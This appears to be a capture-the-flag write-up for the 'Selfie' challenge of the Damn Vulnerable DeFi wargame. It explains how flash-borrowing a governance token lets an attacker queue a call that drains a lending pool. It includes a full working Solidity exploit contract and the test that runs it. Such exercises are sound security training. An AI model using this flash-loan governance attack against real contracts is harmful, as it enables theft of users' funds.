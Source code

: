 # Selfie

## Analysis
`SelfiePool` is a simple flash loan pool that allows `onlyGovernance` user to drain the pool

The `flashLoan` routine must be invoked from contract that implements a routine with the signature: `receiveTokens(address, uint256)`

The `drainAllFunds` will drain the funds into a target denoted `receiver` account.

`SimpleGovernance` implements a `governanceToken` used to determine if a user has enough votes to queue an action.
- Q. How does a user acquire `governanceToken`?

    A. By lending from the pool

`actions` is a mapping of ids to `GovernanceAction`

A `GovernanceAction` is an arbitrary routine invoked with some `weiAmount`

An external invoker can interact with the routines `executeAction`, and `queueAction`.

The routine `queueAction` attempts to prevent an invoker from queing an action against the `GovernanceAction`.

The routine `executeAction` routine invokes the arbitrary routine on the target contract denoted `receiver` in the specified action.

## Problem
There exists a sequence of operations that lead to the `drainAllFunds` to be invoked with the attacker's EOA address. This is because `SimpleGovernance`'s `queueAction` does not protect against queuing actions against the pool. `drainAllFunds` is implemented by the pool.

The same token used to manage governance can be flashloaned.

## Exploit

- ExploitSelfie.sol
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../selfie/SimpleGovernance.sol";
import "../selfie/SelfiePool.sol";
import "../DamnValuableTokenSnapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";

contract ExploitSelfie {

    using Address for address payable;

    SelfiePool immutable private pool;
    SimpleGovernance immutable private governance;
    DamnValuableTokenSnapshot private governanceToken;

    address immutable private  owner;


    constructor (address poolAddr,
     address govAddr) {
        pool = SelfiePool(poolAddr);
        governance = SimpleGovernance(govAddr);
        owner = msg.sender;
    }

    function exploit(uint256 borrowAmount) external payable {
        // invoke flashloan
        // which should trigger receiveTokens
        pool.flashLoan(borrowAmount);

    }

    function receiveTokens(address target, uint256 amount) external payable {
        require(msg.sender == address(pool));

        governanceToken = DamnValuableTokenSnapshot(target);

        governanceToken.snapshot();

        // Queue an action

        // Set up action.data
        // prepare a call for the drainAllFunds function
        bytes memory data = abi.encodeWithSignature(
            "drainAllFunds(address)",
            // receiver is attacker/owner
            owner);

        // invoke queueAction
        governance.queueAction(
            address(pool),
            data,
            0
        );

        // payback the loan
        governanceToken.transfer(address(pool), amount);
    }

}
```

- selfie.challenge.js
```js
    it('Exploit', async function () {

        /** CODE YOUR EXPLOIT HERE */
        const ExploitSelfieFactory = await ethers.getContractFactory("ExploitSelfie", attacker);
        const ExploitSelfie = await ExploitSelfieFactory.deploy(this.pool.address, this.governance.address);

        await ExploitSelfie.connect(attacker).exploit(TOKENS_IN_POOL);

        // advance the time by 2 days
        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 day

        await this.governance.executeAction(1);

    });
```

## Explanation
1. `GovernanceAction` can be used to trigger an arbitrary contract call. We need to trigger `drainAllFunds`. This function is owned by `SelfiePool` which will be specified as the queue action receiver.

2. To queue an action, an invoker needs to own more than half of the tokens available. This can be satisfied by borrowing from the pool.

3. The queued action is timed and can be executed after two days. Hence, the loan can be returned in time and the exploit triggered in future.